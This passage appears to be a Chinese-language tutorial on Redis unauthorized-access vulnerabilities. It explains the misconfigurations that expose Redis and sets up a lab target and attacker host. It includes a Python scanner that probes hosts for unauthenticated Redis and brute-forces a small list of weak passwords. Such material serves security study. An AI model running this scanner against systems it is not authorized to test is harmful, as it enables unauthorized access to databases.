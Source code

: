 ![图片](https://ae01.alicdn.com/kf/Uc550810080c14d6bb06382afb9692a6ds.png)

可以看到虽然其可以登录，但是无法执行命令。

### 三、不绑定地址，关闭安全模式：
![图片](https://ae01.alicdn.com/kf/U974d145250304acbb8c4aa54049ec6e2a.png)

登录测试：

![图片](https://ae01.alicdn.com/kf/U225856e7d1614065b91da1be64d3e7c47.png)

### 所以造成未授权访问有俩种情况：
1. 未开启登录认证，将redis绑定到了0.0.0.0
1. 未开启登录认证，未绑定redis到任何地址（此时任何ip都可以访问），还需要关闭保护模式

# 漏洞复现：
windows下的redis客户端下载：

[https://github.com/caoxinyu/RedisClient/releases](https://github.com/caoxinyu/RedisClient/releases)

### 环境：
​	靶机：192.168.1.154       centos7

​	攻击机：192.168.1.153     centos7

### 未授权访问扫描脚本：
```
# _*_  coding:utf-8 _*_
import socket
import sys
PASSWORD_DIC=['redis','root','oracle','password','p@aaw0rd','abc123!','123456','admin']
def check(ip, port, timeout):
    try:
        socket.setdefaulttimeout(timeout)
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip, int(port)))
        s.send("INFO\r\n")
        result = s.recv(1024)
        if "redis_version" in result:
            return u"未授权访问"
        elif "Authentication" in result:
            for pass_ in PASSWORD_DIC:
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                s.connect((ip, int(port)))
                s.send("AUTH %s\r\n" %(pass_))
                result = s.recv(1024)
                if '+OK' in result:
                    return u"存在弱口令，密码：%s" % (pass_)
    except Exception, e:
        pass
if __name__ == '__main__':
    ip=sys.argv[1]
    port=sys.argv[2]
    print check(ip,port, timeout=10)
```
### 脚本使用案例：
![图片](https://ae01.alicdn.com/kf/Ub2baced00c194489928153f2de5e71d59.png)

